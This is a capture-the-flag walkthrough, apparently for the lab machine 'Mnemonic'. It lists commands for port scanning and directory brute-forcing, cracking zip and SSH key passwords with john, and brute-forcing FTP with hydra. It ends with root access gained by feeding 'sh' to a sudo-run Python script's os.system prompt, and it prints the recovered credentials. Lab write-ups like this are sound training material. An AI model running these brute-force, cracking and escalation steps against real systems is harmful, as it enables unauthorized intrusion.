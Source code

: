 # Mnemonic - Medium

* Map ```mnemonic.thm``` to given IP and do ```nmap``` scan - ```nmap -T4 -p- -A -Pn -v mnemonic.thm```:

  * 21/tcp - ftp - vsftpd 3.0.3
  * 80/tcp - http - Apache httpd 2.4.29 ((Ubuntu))
  * 765/tcp - filtered - webster
  * 1337/tcp - ssh - OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

* The ```nmap``` scan shows '/robots.txt' file on port 80 - this contains a disallowed entry for '/webmasters/*'

* The webpage itself just mentions the word 'Test' - we will need to do some web enumeration:

  ```sh
  gobuster dir -u http://mnemonic.thm -w /usr/share/wordlists/dirb/big.txt -x txt,php,html,bak -t 25

  gobuster dir -u http://mnemonic.thm/webmasters -w /usr/share/wordlists/dirb/big.txt -x txt,php,html,bak -t 25

  gobuster dir -u http://mnemonic.thm/webmasters/admin -w /usr/share/wordlists/dirb/big.txt -x txt,php,html,bak -t 25

  gobuster dir -u http://mnemonic.thm/webmasters/backups -w /usr/share/wordlists/dirb/big.txt -x txt,php,html,bak -t 25
  # we do not find anything yet

  # include more file extensions
  gobuster dir -u http://mnemonic.thm/webmasters/backups -w /usr/share/wordlists/dirb/big.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  # we get 'backups.zip'
  ```

* The '/webmasters' page is blank, so we are checking its sub-directories as well

* From the ```gobuster``` scan, we get directories '/webmasters/admin', '/webmasters/backups' - but we will need to scan these further

* From further scanning, we get the pages:

  * '/webmasters/admin/admin.html' - Admin Control Panel login page
  * '/webmasters/admin/login.html' - blank page

* The Admin Control Panel login page has username and password fields, and a 'Reset Password' option as well - which leads to the blank page at '/webmasters/admin/login.html'. Furthermore, the control panel login page itself has no functionality so we are at a dead end

* Going back to the directory scanning, we do not get anything under '/webmasters/backups/' initially, but as there is a secret file given, we can check again by including more file extensions

* This time, we get a file '/webmasters/backups/backups.zip', but this is password-protected, so we can use ```zip2john```:

  ```sh
  zip2john backups.zip > ziphash.txt

  john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
  # gives password '00385007'
  ```

* The zip file includes a note which mentions the new ftp username for 'James' is 'ftpuser'

* Since we do not know the password for 'ftpuser', we can try ```hydra``` to bruteforce:

  ```sh
  hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt mnemonic.thm ftp
  # gives password 'love4ever'
  ```

* As we have the credentials now, we can log into ```ftp```:

  ```sh
  ftp mnemonic.thm

  ls

  ls -la

  # we have several directories
  # we can check further

  cd data-4
  # this directory includes some interesting files

  mget *
  # fetch all files from directory
  ```

* From ```ftp```, we get 2 files - one is ```id_rsa```, which can be used for SSH login; and the other one is a note for 'james' to change password

* We can try to use this ```id_rsa``` to log into SSH as 'james':

  ```sh
  chmod 600 id_rsa

  ssh james@mnemonic.thm -i id_rsa -p 1337
  # as SSH service is on port 1337 for this machine

  # we need passphrase for this user
  # ssh2john can be used here to crack the key

  ssh2john id_rsa > hash_id_rsa

  john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
  # this gives us 'bluelove'

  ssh james@mnemonic.thm -i id_rsa -p 1337
  # using above password, we can login
  ```

* As we have SSH login as 'james', we can start enumerating for lateral movement; ```ls -la /home``` shows we have several other users to check on this box:

  ```sh
  pwd
  # /home/james

  ls -la /home
  # several users

  # we get a broadcast message periodically

  ls -la
  # we have a few interesting files here

  cat 6450.txt
  # this includes random numbers, could be a wordlist
  ```

* Every once in a while, we also get a 'broadcast message' from root user indicating 'unauthorized access was detected' - this looks like some job is running in the background. In a while, we get more broadcast messages for system blocking and we are kicked off from SSH access, so we need to login again:

  ```sh
  # log into SSH again to continue enumeration
  
  cat noteforjames.txt
  # this includes a note saying user 'vill' created password for 'condor'
  # this also mentions image encryption technique and mnemonic

  cat /etc/crontab
  # shows 2 jobs are running

  # we cannot read the home directories for any other users except 'condor'
  ```

* ```cat /etc/crontab``` shows two cronjobs running as root - ```/usr/bin/sudo /usr/bin/python3 /bin/IPS.py```, and ```/usr/bin/sudo /sbin/dhclient enp0s3``` - we cannot read the Python script yet

* When we try to list files from home directory for 'condor', we get permission denied errors for normal files, and get a weird directory listing with question marks and filenames in encoded formats. The key filenames to be noted here are -

  * ```'aHR0cHM6Ly9pLnl0aW1nLmNvbS92aS9LLTk2Sm1DMkFrRS9tYXhyZXNkZWZhdWx0LmpwZw=='```
  * ```''\''VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ=='\'''```

* We can use [CyberChef](https://gchq.github.io/CyberChef/) to decode this. The first string, when decoded from base64, leads us to a YouTube thumbnail for password cracking

* The second string, when decoded from base64, gives us the user flag

* Since we had a clue earlier about image encryption techniques and mnemonics, we can use steganography tools and check if this image includes anything interesting:

  ```sh
  # download the image

  steghide info maxresdefault.jpg
  # this asks for a passphrase
  # we can try the list of random numbers found earlier, but it does not work

  zsteg -a maxresdefault.jpg
  # error

  foremost maxresdefault.jpg
  # no files carved
  ```

* While searching for a steganography tool related to image encryption and mnemonics, we find [this tool](https://github.com/MustafaTanguner/Mnemonic) - we can give this a try:

  ```sh
  # install required modules
  # running tool as sudo otherwise it gives errors
  sudo pip3 install colored

  sudo pip3 install opencv-python

  # clone tool
  git clone https://github.com/MustafaTanguner/Mnemonic.git

  cd Mnemonic

  sudo python3 Mnemonic.py
  # enter the complete image file path
  
  # I was still getting a 'ValueError'
  # had to follow this - https://stackoverflow.com/questions/73693104/valueerror-exceeds-the-limit-4300-for-integer-string-conversion

  vim mnemonic.py
  # add this line
  # sys.set_int_max_str_digits(0)

  sudo python3 Mnemonic.py
  # this time, when we feed the image path, it works
  # we get a code that can be decrypted further

  # for decrypting, we need a file
  # we can use the '6450.txt' file here, which contained random numbers
  # using this we get a password at the end, this is for 'condor' user
  ```

* Now, as we have the credentials 'condor:pasificbell1981', we can SSH as 'condor':

  ```sh
  ssh condor@mnemonic.thm -p 1337

  sudo -l
  # this shows we can run the following as sudo
  # /usr/bin/python3 /bin/examplecode.py

  ls -la /bin/examplecode.py
  # owned by root, we cannot edit this file but can read it

  cat /bin/examplecode.py

  sudo /usr/bin/python3 /bin/examplecode.py
  # we can try running this
  # when we select the option for root shell, system gets rebooted
  # we need to respawn target again
  ```

* The Python script '/bin/examplecode.py' runs all commands as given - except when we input 5 or 7 - the former is supposed to give root shell but system is shutdown, and the latter clears the '/tmp' directory

* Now, from the Python script, if we select 0, we can either enter 'y' or 'yes' to exit the script, or enter '.'. When we enter '.', ```print(os.system(input("\nRunning....")))``` gets executed. So, whatever input is given at this step, it is executed as root:

  ```sh
  sudo /usr/bin/python3 /bin/examplecode.py
  # input 0
  # enter . when prompted
  # the program sleeps for a while before exiting

  sudo /usr/bin/python3 /bin/examplecode.py
  # input 0
  # enter .
  # when the program says 'running' and waits
  # enter 'sh'

  # this gives us a root shell
  cat /root/root.txt
  # this gives us a flag
  # we need to hash the inner string and submit it in flag format
  ```
